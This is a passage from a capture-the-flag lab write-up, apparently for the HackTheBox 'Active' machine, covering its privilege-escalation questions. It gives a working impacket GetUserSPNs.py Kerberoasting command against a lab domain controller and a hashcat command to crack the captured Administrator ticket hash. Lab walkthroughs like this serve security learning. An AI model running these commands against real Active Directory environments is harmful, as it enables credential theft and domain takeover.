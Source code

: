 ## Privilege escalation

### Q5: Which service account on Active is vulnerable to Kerberoasting?

This one, as it was close to the last task, I simply guessed it would be Administrator.

**R5: Administrator**



I then searched information about the Kerberoast attack and got to the [HackTricks page](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast#linux).

Found out that there is an impacket script to perform it, called GetUserSPNs.py.


```bash
$ GetUserSPNs.py -request -dc-ip 10.129.1.223 active.htb/SVC_TGS -outputfile hashes.kerberoast
```
![alt text](image-7.png)

### Q6: What is the plaintext password for the administrator account?

Cracking the hash with hashcat:

```bash
$ hashcat -a 0 hashes.kerberoast /usr/share/wordlists/rockyou.txt
```
![alt text](image-8.png)
